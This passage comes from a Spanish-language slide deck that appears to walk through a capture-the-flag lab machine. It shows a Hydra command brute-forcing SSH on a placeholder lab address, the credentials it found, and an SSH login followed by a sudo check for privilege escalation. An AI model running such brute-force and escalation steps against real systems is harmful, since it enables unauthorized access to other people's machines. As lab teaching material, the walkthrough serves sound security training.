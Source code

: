 {{% note %}}
Elementos del script:
- Una letra mayúscula
- Un dígito
- Palabras clave
- Formato específico
- Archivo de salida
{{% /note %}}

---

### Fase 7: Ataque de Fuerza Bruta

#### Uso de Hydra
```bash
hydra -l RickSanchez -P wordlist.txt 192.168.x.x ssh -s 22222
# Credenciales encontradas:
# Usuario: RickSanchez
# Password: P7Curtains
```

{{% note %}}
Proceso de ataque:
- Configurar parámetros
- Monitorear progreso
- Identificar éxitos
- Documentar resultados
{{% /note %}}

{{% /section %}}

---

{{% section %}}

### Fase 8: Escalación Final de Privilegios

#### Acceso como RickSanchez
```bash
ssh RickSanchez@192.168.x.x -p 22222
Password: P7Curtains

# Verificar privilegios
sudo -l
# Usuario puede ejecutar sudo sin password
```

{{% note %}}
Verificaciones:
- Permisos sudo
- Archivos de configuración
- Capacidades especiales
- Tareas programadas
{{% /note %}}

---